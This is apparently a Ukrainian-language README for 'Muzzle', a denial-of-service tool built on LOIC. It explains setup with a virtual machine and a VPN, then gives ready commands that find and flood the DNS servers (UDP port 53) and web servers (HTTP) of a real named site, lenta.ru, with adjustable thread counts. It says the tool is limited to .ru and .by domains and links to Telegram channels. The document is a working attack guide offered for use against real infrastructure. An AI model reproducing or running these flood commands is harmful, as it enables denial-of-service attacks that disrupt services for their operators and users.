 # Чому Muzzle?

Сучасні інструменти для створення тиску на сайти мають деяки або усі проблеми, особливо для недосвідчених користувачей:

1. Декілька компонент які мають буті встановлені та налаштовані (python etc.)
2. Багато спеціалізованих параметрів котрі не є зрозумілими для новачків.
3. Одна ip адреса тиску при тому що сучасні системи мають декілька веб- та днс серверів.

# Рішення
Muzzle - простий у використанні інструмент на основі ЛОІСу, котрий виявляє всі DNS та Web сервери пов'язані з певним доменом та створює їм стресові умови.
Програма дозволяє тиск тільки на .ru та .by домени. Ми допомагаемо браттям, але тікому іншому.

# Встановлення та налаштування

Любі інструменти такого роду мають встановлюватись на віртуальну машину для безпеки.

Користуйтесь VPN. Наприклад https://clearvpn.com пропонує безкоштовний аккаунт на рік при використанні промо коду SAVEUKRAINE.

1. Скачайте останню версію інструмента та витягніть з архіву. 
2. Обирайте ціль та запускайте прогу.

# Приклади команд
muzzle sniff -d lenta.ru
> Виявити та роздрукувати DNS та Web сервери пов'язані з доменом lenta.ru.

muzzle dns-flood -d lenta.ru
muzzle dns-flood -d lenta.ru -t 25
> Тиск на всі DNS сервери що належать lenta.ru по UDP порту 53. 
> Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
> Зростання показника Requested - це добре.

muzzle http-flood -d lenta.ru

muzzle http-flood -d lenta.ru -t 35
> Тиск на всі Web сервери що належать lenta.ru по TCP порту 80 (HTTP).  
> Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
> Зростання показника Downloaded або принаймні Requested - це добре.

muzzle help 
> Перелік команд.

muzzle version
> Роздрук версії програми.

Повідомлення про нові версії: https://t.me/getmuzzle

Питання та пропозиції: https://t.me/+guqhldDxOMw4YWUx
